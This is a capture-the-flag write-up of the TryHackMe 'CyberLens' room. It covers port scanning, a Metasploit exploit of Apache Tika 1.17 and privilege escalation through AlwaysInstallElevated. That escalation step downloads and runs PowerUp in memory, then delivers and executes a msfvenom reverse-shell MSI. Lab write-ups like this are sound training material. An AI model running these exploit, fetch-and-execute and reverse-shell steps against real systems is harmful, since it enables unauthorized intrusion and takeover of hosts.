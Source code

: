 ```yaml
---
layout: post
title: CyberLens writeup (TryHackMe)
author: wizarddos
category: writeups
excerpt_separator: <!--more-->
---
```


Another day, another challenge. This time is easy one.
I don't know what to expect. I only know that there will be a webserver

Let's try it

It comes from [TryHackMe](https://tryhackme.com/r/room/cyberlensp6)

<!--more-->
First, add IP to `/etc/hosts`

I'll also add hostname to the enviromental variable

```
$ sudo echo 'MACHINE_IP cyberlens.thm' >> /etc/hosts
$ export HOST="cyberlens.thm"
```

Then, it's time for port scanning
```
$ rustscan -a $IP -- -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
0day was here ♥

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.138.96:80
Open 10.10.138.96:135
Open 10.10.138.96:139
Open 10.10.138.96:445
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV" on ip 10.10.138.96
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-05-18 20:51 UTC
[...]
PORT    STATE SERVICE       REASON  VERSION
80/tcp  open  http          syn-ack Apache httpd 2.4.57 ((Win64))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp open  msrpc         syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 33916/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58379/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 23678/udp): CLEAN (Timeout)
|   Check 4 (port 10426/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-18T20:51:21
|_  start_date: N/A
```

It looks like windows machine - it'll be harder for me as I'm not acustomed to it. 

I couldn't get anything from other ports, so let's get to work on port `80`

### Website enumeration

JS on main page unveils another port
```js
fetch("http://cyberlens.thm:61777/meta", {
            method: "PUT",
            body: fileData,
            headers: {
              "Accept": "application/json",
              "Content-Type": "application/octet-stream"
            }
          })
```

Scanning it, gives us more info
```
$ nmap -sC -sV $IP -p61777 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 23:02 CEST
Nmap scan report for cyberlens.thm (10.10.138.96)
Host is up (0.074s latency).

PORT      STATE SERVICE VERSION
61777/tcp open  http    Jetty 8.y.z-SNAPSHOT
|_http-title: Welcome to the Apache Tika 1.17 Server
|_http-cors: HEAD GET
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
| http-methods: 
|_  Potentially risky methods: PUT
```

It runs Apache Tika - from my research it has an exploit in metasploit.

Launch it

### Exploiting

```
$ msfconsole
```

There's only one module for this service 
```
msf6 > use exploit/windows/http/apache_tika_jp2_jscript
```

We need to change `RHOSTS`, `RPORT` and `LHOST`
```
msf6 > set RHOSTS MACHINE_IP
msf6 > set RPORT 61777
msf6 > set LHOST YOUR_THM_IP
```

Then, we can run it
```
msf6 > exploit
```

Now, I've got a meterpreter shell - get user flag

I've spawned myself a typical CMD shell
```
meterpreter > shell
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
C:\Windows\system32>cd C:\Users\cyberlens\Desktop
C:\Users\CyberLens\Desktop>type user.txt
[REDACTED]
```

We've got a flag! Time for the hard part

### Privilege escalation

Let's fire up PowerShell
```
> powershell
```

Today, [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) became my best friend
```
PS > iex (iwr -usebasicparsing http://Your IP:8000/PowerUp.ps1)
```
And in kali
```
$ python3 -m http.server 8000
```

Then I run it and
```
PS > Invoke-allchecks

[*] Checking %PATH% for potentially hijackable .dll locations...


HijackablePath : C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll' 
                 -Command '...'

[*] Checking for AlwaysInstallElevated registry key...


OutputFile    : 
AbuseFunction : Write-UserAddMSI
```

We see that there is a misconfigured registry key, that allows us to install MSI files as Admin.
[Time to exploit it](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#powerup)

First, create a payload on kali and set up python http server
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f msi > shell.msi
$ python3 -m http.server 80
```
Then on windows I've downloaded that shell to Desktop
```
> wget http://10.9.3.108/shell.msi -o shell.msi
```

After setting up netcat listener
```
$ nc -lvnp 1337
```

I've executed malicious msi

```
> msiexec /quiet /qn /i shell.msi
```

And boom, we have shell. Let's grab the flag

```
> type C:\Users\Administrator\Desktop\root.txt
[REDACTED]
```
And that's it. Machine pwned

## Conclusion

I don't have too much experience with windows machines. While initial access was fairly easy, privesc was a little nightmare

I think I've spent like 3H on this box. Still kinda fun

I've discovered a new service, practices my metasploit usage and made learned windows privilege escalation method.

I really need to get things sorted out in windows privesc. I suck at it, not gonna lie.

Btw, check out my [normal blog](https://wizarddos.github.io/blog), where I post about overall IT and Programming

That's it - see you next time
